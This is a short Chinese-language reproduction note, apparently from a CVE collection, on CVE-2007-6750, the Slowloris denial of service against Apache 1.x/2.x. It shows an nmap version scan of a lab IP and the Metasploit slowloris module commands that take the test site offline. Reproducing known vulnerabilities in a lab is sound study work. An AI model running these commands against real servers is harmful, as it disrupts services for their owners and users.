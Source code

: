 # CVE-2007-6750 Apache DDOS

## 漏洞简介

Apache HTTP服务器1.x和2.x允许远程攻击者通过部分HTTP请求导致拒绝服务(守护进程中断)，如Slowloris所示，这与2.2.15之前版本中缺少mod_ReqTimeout模块有关

## 漏洞影响

Apache 1.x/2.x

## 复现过程

`nmap -sV -p80 192.168.146.175` (用nmap查看Apache版本)(Apache2.2.3初步断定存在漏洞)

![](images/15889275046581.png)


接着访问网站查看是否正常(发现网站正常)

![](images/15889275117906.png)



```bash
msfconsole(启动metasploit)
use auxiliary/dos/http/slowloris(使用模块)
set RHOST 192.168.146.175(设置目标IP)
run(执行攻击)
```

![](images/15889275547772.png)


再访问网站查看是否正常(发现网站瘫痪)

### 参考链接

https://www.jsxlo.com/cve-2007-6750/